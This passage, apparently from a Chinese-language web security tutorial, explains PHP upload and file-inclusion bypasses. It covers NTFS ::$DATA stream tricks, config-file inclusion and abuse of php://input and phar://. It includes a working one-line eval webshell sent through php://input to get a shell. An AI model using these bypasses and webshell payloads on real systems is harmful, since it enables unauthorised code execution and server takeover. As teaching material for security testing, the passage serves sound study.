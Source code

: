 ```php
上传 Test.php:a.jpg     生成Test.php  文件内容为空

上传 Test.php::$DATA  生成test.php  文件内容为<?php phpinfo();?>

上传 Test.php::$INDEX_ALLOCATION  生成test.php文件夹

上传 Test.php::$DATA\0.jpg  生成0.jpg  文件内容为<?php phpinfo();?>

上传 Test.php::$DATA\aaa.jpg  生成aaa.jpg  文件内容为<?php phpinfo();?>

PS: 上传test.php:a.jpg的时候其实是在服务器上正常生成了一个数据流文件，可以通过notepad test.php:a.jpg查看内容，而test.php为空也是正常的。
```

#### **5.配置文件过滤不当**

有些时候配置信息是直接写在服务器端的文件中的，如果我们能够绕过这就是一个 webshell

这个也只是一个思路，只要是用户可控的内容往服务器上写，就存在包含的可能

#### **6.php 伪协议包含**

这个就可以说是利用 php 的特性了，当然部分伪协议，比如 php://input 你要用还是需要 allow_url_include 打开,**data:// 更是需要 php_url_fopen 和 php_uri_include 都打开**（由于 data://输入远程文件包含的范畴，于是我在前面的部分已经提及了）

##### **1.php://input**

php://input 是个可以访问请求的原始数据的只读流(这个原始数据指的是POST数据)

**如图所示：**

[![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/php%20input.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/php%20input.png)

当然了，我们也能利用这个来执行命令，上传我们的一句话，直接 getshell,上菜刀

```url
http://localhost/qweasdzxc.php?rf=php://input
```

POST :

```php
<?php eval($_POST['cmd']);?>&cmd
```

**如图所示：**

[![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/getshell.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/getshell.png)

##### **3.phar://**

这个协议是仿照 Java 中的打包协议 Jar 弄出来的，他的特点就是能将任意后缀名的压缩包解包，得到里面指定的内容，这个方法在绕过后缀名限定的包含中非常好用

包含方法：

```php
phar://aaa.bbb/shell.php
```
